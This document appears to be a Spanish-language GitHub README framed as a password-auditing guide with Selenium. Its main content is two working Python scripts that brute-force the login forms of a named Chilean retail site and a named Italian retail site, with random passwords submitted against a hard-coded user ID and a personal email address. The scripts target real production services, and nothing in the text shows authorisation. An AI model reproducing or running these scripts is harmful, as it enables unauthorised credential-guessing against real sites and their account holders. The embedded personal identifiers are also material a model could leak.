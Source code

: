 # Automatización de credenciales con python y selenium
Auditar la implementación de los sistemas de creación, actualización, acceso, transmisión y recuperación de contraseñas

## Selenium 
Selenium es un entorno de pruebas que se utiliza para automatizar servicios de sowftware.

## Instalación
Usa el pip en la consola para instalar el paquete de selenium.

```bash
pip install selenium
```
## Ejemplo N°1 de uso de python con selenium (ataque fuerza bruta sitio web chileno)

```python
import string
import time
import random

#Carga el módulo webdriver para implementar las clases y métodos para el soporte de los diferentes navegadores
from selenium import webdriver

#Carga la configuración del teclado virtual para simular las entradas de teclado
from selenium.webdriver.common.keys import Keys

#Crea una instancia de Chrome que se pueda controlar con comandos de selenium.
driver = webdriver.Chrome()

#Llama a la página chilena, que será la base para las interacciones automatizadas
driver.get('https://www.wei.cl/cliente/ingreso')
time.sleep(5)
#variable que contendrá carácteres uppercase, lowercase y digitos del 0-9, es decir base 62
letters = string.ascii_letters + string.digits

#Inicia la automatiación de 100 accesos (verifica si el sitio web es susceptible a ataques por fuerza bruta) 
for x in range(100):

    #Se buscará dentro del sitio web los elementos que contengan un atributo name llamados ''client-username''
    usr = driver.find_element_by_id("client-username")
    usr.clear()
    #Se introduce el valor que contiene la variable usr
    usr.send_keys("20189579-0")
    #Se buscará dentro del sitio web los elementos que contengan un atributo name llamados ''client-password''
    psw = driver.find_element_by_id("client-password")
    str = ''.join(random.choice(letters) for i in range(random.randrange(6,10)))
    
    #Se introduce el valor que contiene la variable psw
    psw.send_keys(str)
    print(str)
    
    #Está variable permite efectuar un evento click a la página web mediante el xpath
    clk = driver.find_element_by_xpath('//*[@id="form-ingreso-window"]/button').submit()
    time.sleep(1)
    psw.clear()
```
## Ejemplo N°2 de uso de python con selenium (ataque fuerza bruta sitio web italiano)

```python
# -*- coding: utf-8 -*-
import string
import time
import random
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
driver = webdriver.Chrome()
driver.get("https://www.ovs.it/login")
time.sleep(5)
base62 = string.ascii_letters + string.digits 
sub_s = "ₐ₈CDₑբGₕᵢⱼₖₗₘₙₒₚQᵣₛₜᵤᵥwₓᵧZₐ♭꜀ᑯₑբ₉ₕᵢⱼₖₗₘₙₒₚ૧ᵣₛₜᵤᵥwₓᵧ₂₀₁₂₃₄₅₆₇₈₉₊₋₌₍₎"
ascii_256 = "@#~¥§«Æ¼ñÑá^ø=()’\($þ”ßÐ‡‰―‼⁊‹¢"
arabic = "ء آ أ ؤ ئ ا ب ة ت ث ج ح خ د ذ ر ز س ش ص ض ط ظ ع غ ف ق ل م ن ه و ي ً ٌ ٍ َ ُ ِ ّ ْ ٔ ٰ ټ پ ځ څ چ ډ ړ ږ ژ ښ ک ګ گ ڼ ی ۍ ې ﭖ ﭗ ﭘ ﭙ ﭺ ﭻ ﭼ ﭽ ﮊ ﮋ ﮎ ﮏ ﮐ ﮑ ﮒ ﮓ ﮔ ﮕ ﯤ ﯥ ﯦ ﯧ ﯼ ﯽ ﯾ ﯿ ﺀ ﺍ ﺎ ﺏ ﺐ ﺑ ﺒ ﺓ ﺔ ﺕ ﺖ ﺗ ﺘ ﺙ ﺚ ﺛ ﺜ ﺝ ﺞ ﺟ ﺠ ﺡ ﺢ ﺣ ﺤ ﺥ ﺦ ﺧ ﺨ ﺩ ﺪ ﺫ ﺬ ﺭ ﺮ ﺯ ﺰ ﺱ ﺲ ﺳ ﺴ ﺵ ﺶ ﺷ ﺸ ﺹ ﺺ ﺻ ﺼ ﺽ ﺾ ﺿ ﻀ ﻁ ﻂ ﻃ ﻄ ﻅ ﻆ ﻇ ﻈ ﻉ ﻊ ﻋ ﻌ ﻍ ﻎ ﻏ ﻐ ﻑ ﻒ ﻓ ﻔ ﻕ ﻖ ﻗ ﻘ ﻝ ﻞ ﻟ ﻠ ﻡ ﻢ ﻣ ﻤ ﻥ ﻦ ﻧ ﻨ ﻩ ﻪ ﻫ ﻬ ﻭ ﻮ ﻱ ﻲ ﻳ ﻴ"
letters = base62 + sub_s + ascii_256 + arabic
for x in range(100):
    usr = driver.find_element_by_id("login-form-email")
    usr.clear()
    usr.send_keys("espinabrayan@gmail.com")
    psw = driver.find_element_by_id("login-form-password")
    str = ''.join(random.choice(letters) for i in range(random.randrange(8,255)))
    psw.send_keys(str)
    print(str)
    clk = driver.find_element_by_xpath("//*[@id='maincontent']/div/div/div[1]/div/div/div/form/button").submit()
    time.sleep(2)
    psw.clear()
driver.close()
```
